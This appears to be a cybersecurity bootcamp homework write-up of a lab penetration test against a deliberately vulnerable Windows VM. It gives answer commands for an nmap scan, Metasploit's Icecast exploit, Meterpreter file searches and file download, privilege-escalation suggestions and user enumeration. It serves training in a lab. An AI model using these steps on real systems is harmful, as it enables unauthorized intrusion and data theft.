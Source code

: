 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

### Setup 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
-  If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV "192.168.0.20"
      
      ![](images/17-1.png)
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: searchsploit icecast
     
     ![](images/17-2.png)

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: msfconsole
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: search icecast
     
     ![](images/17-3.png)

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: use 0
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: set RHOSTS 192.168.0.20
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: run / exploit
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: search -f *secretfile.txt
     
     ![](images/17-4.png)
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: search -f *recipe.txt
      
      ![](images/17-5.png)
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      > Answer: download "c:\users\ieuser\documents\drink.recipe.txt"
      
      ![](images/17-6.png)

8. You can also use Meterpreter's local exploit suggester to find possible exploits.
 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
      > Answer: run post/multi/recon/local_exploit_suggester
      
      ![](images/17-7.png)
 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_logged_on_users
  
  ![](images/17-8.png)
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: shell; systeminfo
 
C. Run the command that displays the target's computer system information:

  > Answer:
   
  ![](images/17-9.png)

icecast 2.0 header over CVE2004-1561

---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
